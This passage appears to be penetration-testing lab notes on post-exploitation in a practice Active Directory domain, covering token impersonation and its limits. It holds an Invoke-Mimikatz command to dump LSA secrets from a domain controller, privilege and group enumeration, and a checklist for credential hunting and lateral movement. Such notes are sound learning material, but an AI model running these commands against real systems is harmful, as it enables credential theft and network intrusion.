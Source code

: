 ##### Post-Impersonation Actions and Limitations
```bash
# After successful token impersonation as marvel\fcastle
C:\Windows\system32> whoami
marvel\fcastle

# Attempt to dump LSA hashes with Mimikatz
PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer HYDRA.marvel.local

# Result: Access Denied Error
[HYDRA.marvel.local] Connecting to remote server HYDRA.marvel.local failed with the following error message: 
Access is denied. For more information, see the about Remote Troubleshooting Help topic.
+ CategoryInfo: OpenError: (HYDRA.marvel.local:String) [], PSRemotingTransportException
+ FullyQualifiedErrorId: AccessDenied,PSSessionStateBroken

# Analysis: 
# - Token impersonation successful
# - User fcastle lacks administrative privileges 
# - Cannot dump LSA hashes
# - Need further privilege escalation
```

##### Understanding Token Impersonation Limitations
```bash
# Common limitations after token impersonation:
# 1. User token may not have admin rights
# 2. Cannot access protected resources (like LSA)
# 3. May not have SeDebugPrivilege
# 4. Limited to user's actual domain permissions

# Check current privileges after impersonation
whoami /priv
# Look for critical privileges:
# - SeDebugPrivilege (needed for memory access)
# - SeImpersonatePrivilege (allows further token manipulation)
# - SeLoadDriverPrivilege (driver loading)
# - SeTcbPrivilege (trusted computer base)

# Check group memberships
whoami /groups
# Look for admin groups:
# - Domain Admins
# - Enterprise Admins  
# - Local Administrators
# - Backup Operators
```

##### Next Steps After Token Impersonation
```bash
# If access denied for high-privilege operations:

# 1. Enumerate user permissions more thoroughly
net user fcastle /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# 2. Look for other escalation paths
# - Check for other high-privilege tokens
# - Look for vulnerable services
# - Search for credentials in files/registry

# 3. Attempt lateral movement to find admin tokens
# Use current token to access other systems
```